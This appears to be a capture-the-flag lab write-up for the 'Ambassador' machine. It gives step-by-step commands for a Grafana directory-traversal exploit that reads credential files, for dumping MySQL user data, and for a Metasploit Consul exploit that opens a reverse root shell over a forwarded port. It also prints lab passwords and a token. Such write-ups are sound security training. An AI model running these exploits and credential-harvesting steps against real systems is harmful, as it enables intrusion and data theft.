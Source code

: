 **Target:10.10.11.182     Ambassador**

**Initial Access:**\
nmap 10.10.11.183 -Pn --min-rate=5000 -p-\
Output shows open ports of 22,80,3000,3306

Enumerating these open ports further with nmap:\
nmap 10.10.11.183 -Pn --min-rate=5000 -p 22,80,3000,3306 -sC -sV -oN nmap.ambassador\
Ouput shows: 

PORT     STATE SERVICE VERSION\
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)\
| ssh-hostkey: \
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)\
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)\
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)\
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))\
|_http-generator: Hugo 0.94.2\
|_http-title: Ambassador Development Server\
|_http-server-header: Apache/2.4.41 (Ubuntu)\
3000/tcp open  ppp?\
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2

Navigating to port 3000 website redirects us to a /login directory which is a login page.  The page shows that it is running Grafana, and at the bottom right it shows the version is 8.2:

![image](https://user-images.githubusercontent.com/93153300/198725813-8e518d6d-be2f-40a3-b391-ac0884544b2a.png)
  
Let’s check for exploits on grafana:  searchsploit grafana\
searchsploit finds a directory traversal and arbitrary file read:\
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read           | multiple/webapps/50581.py\
Download the exploit:   searchsploit -m 50581.py

Opening the exploit and reading through it shows: 

![image](https://user-images.githubusercontent.com/93153300/198725877-c284a75c-eeb8-4832-8230-07f3bcac6cc8.png)

This confirms that our grafana version 8.2 should work for this exploit.\
Run the exploit: python 50581.py -H http://10.10.11.183:3000  → when prompted for file to read, enter  /etc/passwd for proof of concept:

![image](https://user-images.githubusercontent.com/93153300/198725913-59510f76-4be4-4cbe-b2aa-cc347fa28bc2.png)
 
It works, we get the users on the target.  Let’s try to find the password for the grafana login page.\
Google search ‘what directory is grafana credentials stored in’. \
Found that the credentials are stored in :  /etc/grafana/grafana.ini\
Use the exploit to read this file:  python grafana8.3.py -H http://10.10.11.183:3000  → when prompts for the file to read enter:  /etc/grafana/grafana.ini\
Output is quite a lot, so let’s search for interesting words.  Use control f to search for the word password.  Found credentials: 

![image](https://user-images.githubusercontent.com/93153300/198725945-e84cda65-b1c9-4697-8994-696d2cbf89be.png)
 
The username is admin, password is messageInABottle685427 \
Log into http://10.10.11.183:3000/login with the credentials we found.  It works, we get logged in.

Not much of interest found on this page. Let’s go back to our exploit and see if we can find something else.

Another page that comes up when you google search ‘what directory is grafana credentials stored in’ is /var/lib/grafana/grafana.db.  Run the exploit to read grafana.db file:\
python grafana8.3.py -H http://10.10.11.183:3000   → when prompted for the file to read, enter /var/lib/grafana/grafana.db

It returns a lot of output.  To save some time, use control f to search for keywords.  Searching for mysql immediately finds a username and password for mysql:

![image](https://user-images.githubusercontent.com/93153300/198726180-ae33e033-7c51-49df-b242-7fb8f58446ed.png)
Use these credentials (username grafana, password dontStandSoCloseToMe63221!) to log into mysql:    mysql -h 10.10.11.183 -u grafana -p	→ when prompted for password enter the password.\
It works, we get logged in.   

![image](https://user-images.githubusercontent.com/93153300/198726117-aa4b0820-0282-408e-b593-a9d9ae343cd2.png)

Check the databases with command:   show databases;

![image](https://user-images.githubusercontent.com/93153300/198726209-bf34650e-1e63-476d-a7db-bb3bd2dee693.png)
 
Select whackywidget with command: use  whackywidget;\
Check the tables in whackywidget with command:  show tables;

![image](https://user-images.githubusercontent.com/93153300/198726226-d75d612f-e7c0-4e12-9f27-6d2b22c202c1.png)

Dump the information of table users with command:  select * from users;

![image](https://user-images.githubusercontent.com/93153300/198726242-80465b57-d9b1-441d-8ee8-3a549ee8e39d.png)

We found username developer and a password.  Looks like the password is base64 encoded.  Decode it using command:  echo -n "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg=="|base64 -d\
Decoded to plaintext password: anEnglishManInNewYork027468

Let’s try to log into ssh with these credentials.

ssh developer@10.10.11.183   → enter password when prompted

We have shell as developer, open /home/developer/user.txt to get the flag.

![image](https://user-images.githubusercontent.com/93153300/198726260-dea161a5-5b46-4611-8b26-e1f6def77b93.png)
________________________________________________________
**Privilege Escalation:**\
Navigating around to differnet directories /opt has non standard files that leads to a .git.  Let’s check that out:   cd /opt/my-app/.git\
check the files with command:   git log\
Output shows a number of commits.  Commint c982db8eff6f10f8f3a7d802f79f2705e7a21b55 has a title of ‘config script’, config sometimes has interesting information, so let’s check that out:\
git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55\
The output shows a consul command with a token:

![image](https://user-images.githubusercontent.com/93153300/198726273-52beeaa3-7f9d-4072-bd3e-451fde5eb6ac.png)

Check if consul has an exploit with searchsploit:    searchsploit consul  → shows an exploit with metasploit. 

![image](https://user-images.githubusercontent.com/93153300/198726306-354c971b-2a87-4576-8c8b-7a68adb6fc0f.png)

Consul runs on port 8500, from our nmap at the beginning, we know that we do not have that port open.  Let’s check if it’s open on the target shell that we have:   netstat -ln

![image](https://user-images.githubusercontent.com/93153300/198726328-6b674bf3-5025-47cd-8aae-6641a313295d.png)


The output from netstat -ln shows that port 8500 is open but only from 127.0.0.1.  So to make this accessible to us we need to forward that port.   To get our developer target shell into the port forward mode type: ~c. Next use command: -L 4444:127.0.0.1:8500\
This means that whenever we go to our 127.0.0.1 at port 4444 then we will be redirected to the target 127.0.0.1 on port 8500.  

![image](https://user-images.githubusercontent.com/93153300/198726345-6c238382-df17-4948-9433-0dac504553ec.png)
Now that we have access to port 8500 on the target, we can continue to perform the exploit we found.  Open metasploit with command:   msfconsole -q. \
To find the exploit in metasploit run:\
search Hashicorp Consul Remote

![image](https://user-images.githubusercontent.com/93153300/198726358-ab07741f-c882-496a-8dee-bb4d7b22ddf3.png)

Choose the exloit with command:  use multi/misc/consul_service_exec \
Fill out the exploit with the following commands:\
show options → set lhost tun0 → set lport 443 → set rhosts 127.0.0.1 → set rport 4444 → set acl_token  bb03b43b-1d81-d62b-24b5-39540ee469b5\
It should look like this:

![image](https://user-images.githubusercontent.com/93153300/198726372-89ecd2f6-84c8-48cd-966f-f0a71a1f8d5f.png)


To run the exploit use command: run \
We have shell as root, open /root/root.txt to get the flag. 

![image](https://user-images.githubusercontent.com/93153300/198726401-f965cca4-e7b8-4e57-8ed8-c3594e3fd824.png)


